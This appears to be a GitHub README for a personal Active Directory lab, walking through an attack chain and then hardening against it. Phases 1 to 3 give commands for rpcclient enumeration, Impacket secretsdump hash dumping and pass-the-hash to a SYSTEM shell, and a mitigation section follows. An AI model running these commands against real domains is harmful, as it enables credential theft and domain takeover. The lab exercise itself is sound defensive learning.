



# 🛡️ Active Directory Attack & Defense Lab

A hands-on cybersecurity project demonstrating real-world Active Directory attack techniques and defensive mitigations in a controlled lab environment.

---

## 📋 Overview

This lab simulates a corporate Active Directory environment and walks through a complete attack chain — from initial enumeration to full Domain Controller compromise — then implements industry-standard hardening measures.

**Domain:** `lab.local`  
**Target:** Windows Server 2025 Domain Controller (Microsoft Azure)  
**Attacker:** Kali Linux 2023 ARM64 (UTM, Apple Silicon)  
**Result:** NT AUTHORITY\SYSTEM achieved on DC — all vulnerabilities remediated

> ⚠️ **Note:** A `hashes.txt` file containing extracted NTLM hashes was generated during the attack phase and saved locally on the attacker machine. It is intentionally **not included** in this repository for security reasons.

---

## 🏗️ Lab Architecture

```
┌─────────────────────┐         ┌──────────────────────────┐
│   Kali Linux 2023   │──────── │   DC01.lab.local          │
│   (UTM - ARM64)     │  SMB/   │   Windows Server 2025     │
│   Attacker Machine  │  RPC/   │   Domain Controller       │
│                     │  Kerb   │   Microsoft Azure         │
└─────────────────────┘         └──────────────────────────┘
```

### AD Users Created

| Account | Role | Notes |
|---------|------|-------|
| `jsmith` | IT User | SPN set — Kerberoastable target |
| `sjones` | HR User | Standard domain user |
| `madmin` | IT Admin | Member of Domain Admins |
| `Harsh21` | Domain Admin | Primary administrator |

---

## ⚔️ Attack Chain

### Phase 1 — AD Enumeration (rpcclient)

Used built-in `rpcclient` to enumerate all domain users, groups, and account details without triggering alerts.

```bash
rpcclient -U 'lab.local/jsmith%Password123!' <DC_IP>
enumdomusers
enumdomgroups
queryuser madmin
```

**Result:** All domain accounts, group memberships, and privileged account details exposed.



---

### Phase 2 — Credential Dumping (secretsdump)

Used Impacket's `secretsdump` to extract all NTLM hashes and Kerberos keys from the DC using the DRSUAPI replication method. Results saved to `hashes.txt` (not included in repo).

```bash
python3 secretsdump.py 'lab.local/Admin:Password@<DC_IP>'
```

**Result:** Full credential dump including:
- NTLM hashes for all domain accounts
- Kerberos AES-256/128 keys
- `krbtgt` hash (enables Golden Ticket attacks)
- LSA Secrets and machine account credentials

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<NTLM_HASH_REDACTED>
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:<NTLM_HASH_REDACTED>
lab.local\madmin:1603:aad3b435b51404eeaad3b435b51404ee:<NTLM_HASH_REDACTED>
```

---

### Phase 3 — Pass-the-Hash → SYSTEM Shell (atexec)

Used the extracted NTLM hash to authenticate without a plaintext password, achieving command execution as `NT AUTHORITY\SYSTEM`.

```bash
python3 atexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:<HASH>' \
  lab.local/Admin@<DC_IP> whoami
```

**Result:** `nt authority\system` — highest privilege on Windows



---

### Phase 4 — AV Detection (Microsoft Defender)

During psexec-based execution, **Microsoft Defender detected and alerted** on the attack — documenting the defensive layer in action.



---

## 🔒 Mitigations Implemented

| Vulnerability | Fix Applied |
|--------------|-------------|
| Windows Firewall disabled | Re-enabled across all profiles |
| Defender disabled | Re-enabled real-time monitoring |
| LDAP signing not enforced | Set `LDAPServerIntegrity = 2` (Required) |
| Privileged accounts exposed to PTH | Added to **Protected Users** security group |

```powershell
# Re-enable Defender
Set-MpPreference -DisableRealtimeMonitoring $false

# Re-enable Firewall
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled True

# Enforce LDAP Signing
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Services\NTDS\Parameters" `
  -Name "LDAPServerIntegrity" -Value 2

# Protected Users
Add-ADGroupMember -Identity "Protected Users" -Members "madmin","Admin"
```

### Additional Recommendations
- Enable **Credential Guard** to protect NTLM hashes in memory
- Deploy **SIEM** (Microsoft Sentinel / Splunk) for centralized alerting
- Enforce **MFA** for all privileged accounts
- Implement **Tiered Administration** model (Tier 0/1/2)
- Regular audits of accounts with **SPNs** set (Kerberoasting targets)
- Deploy **Privileged Access Workstations (PAWs)**

---

## 🛠️ Tools Used

| Tool | Purpose |
|------|---------|
| `rpcclient` | AD enumeration (built-in Samba) |
| `impacket-secretsdump` | NTLM hash extraction via DRSUAPI |
| `impacket-atexec` | Remote execution via Task Scheduler |
| `impacket-getTGT` | Kerberos TGT acquisition |
| `impacket-psexec` | SMB-based shell (detected by Defender) |
| Microsoft Azure | Target VM hosting |
| UTM | Kali Linux VM on Apple Silicon |

---

## 📁 Repository Structure

```
AD-Attack-Defense-Lab/
├── README.md                          # This file
├── Report/
│   └── AD_Attack_Defense_Report.docx  # Full penetration test report
├── screenshots/
│   ├── screenshot_enumeration.png     # rpcclient AD enumeration
│   ├── screenshot_system.png          # SYSTEM shell via Pass-the-Hash
│   └── screenshot_defender.png        # Defender detection alert
└── scripts/
    ├── setup_ad.ps1                   # AD user/OU creation script
    └── harden_dc.ps1                  # Hardening commands
```

> `hashes.txt` — generated locally during attack phase, not committed to repo

---

## ⚠️ Disclaimer

This lab was conducted in a **controlled, isolated environment** for educational purposes only. All techniques demonstrated here should only be used in authorized environments. Unauthorized use of these techniques against systems you do not own is illegal.

---

## 👤 Author

**Harshvardhan Kamble**  
May 2026
